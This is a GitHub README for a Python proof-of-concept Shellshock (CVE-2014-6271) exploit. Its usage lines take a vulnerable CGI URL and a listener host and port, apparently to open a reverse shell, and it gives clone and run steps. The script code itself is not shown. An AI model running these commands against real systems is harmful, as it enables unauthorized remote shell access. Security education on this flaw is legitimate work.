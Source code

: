 # Shellshock Exploit (CVE-2014-6271)

#### Exploit
## <u>Description</u>
This repository contains an exploit for a vulnerability that affects unix-based systems. Please note that this is merely a proof-of-concept script created for educational purposes and should be used responsibly.

This exploit is designed to demonstrate how the shellshock attack works and how it could be used to gain shell access to a system through a maliciously crafted request header.

### <u>Disclaimer</u>
This repository is intended for educational purposes only. Do not use this code or any information contained within for malicious purposes. Always follow ethical guidelines and respect the law.


Usage:

	python3 shellshock.py [Vulnerable URL] [LHOST] [LPORT]
Example:

	python3 shellshock.py http://vulnerablewebsite.com/cgi-bin/test.cgi 109.876.654.321 1234


Prerequisites:
- A local development environment
- Python installed

### <u>To run this exploit, you can follow these steps:</u>
Clone this repository to your local machine.
```
git clone https://github.com/AlissoftCodes/Shellshock.git
```

Navigate to the project directory.
```
cd Shellshock
```

Run the shellshock.py script.
```
python3 shellshock.py http://vulnerable-website.com/cgi-bin/test.cgi listening_interface_IP listening_port
```

###### Please remember that this exploit should never be used against real software or systems you're not authorized to test. Unauthorized access or any malicious activity is illegal.

#### <u>License</u>
_This exploit is released under the MIT License. You can find more information about this in the LICENSE file._


# Author: Alisson Faoli

#### Github: https://github.com/AlissoftCodes
#### LinkedIn: https://linkedin.com/in/alisson-faoli



<b>If you have any questions or concerns about this exploit, please feel free to contact the author</b>
